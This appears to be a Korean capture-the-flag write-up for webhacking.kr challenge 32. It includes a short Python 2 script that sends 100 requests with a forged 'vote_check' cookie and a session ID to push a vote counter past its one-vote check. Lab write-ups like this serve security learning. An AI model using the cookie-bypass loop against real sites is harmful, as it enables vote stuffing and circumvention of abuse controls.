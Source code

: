 # webhacking.kr - 32번문제(150)

![](./image/1.png)

이렇게 뜨고 맨 아래에 Join 버튼이 있는데, 클릭 시 랭킹에 자신의 아이디가 등록된다.

자신의 아이디를 클릭해보면 

![](./image/2.png)

이렇게 뜬다. 

![](./image/3.png)

쿠키때문이다. 쿠키를 제거하고 클릭시 숫자가 잘 오른다.

어떤 수단이든 적당히 사용해서 100번 클릭하면 될 것이다.



### Solution Code

```python
from socket import *
from urllib2 import *
from string import *
import urllib2, re, time

for i in range(0, 100):
	url = "http://webhacking.kr/challenge/codeing/code5.html?hit=kiyosumi"
	headers = {"Cookie":"vote_check=''", "Cookie":"PHPSESSID=be09fc532e4e9dbe08b7f30229a1e6b0"}
	request = urllib2.Request(url, None, headers)
	response = urllib2.urlopen(request)
```

![](./image/end.png)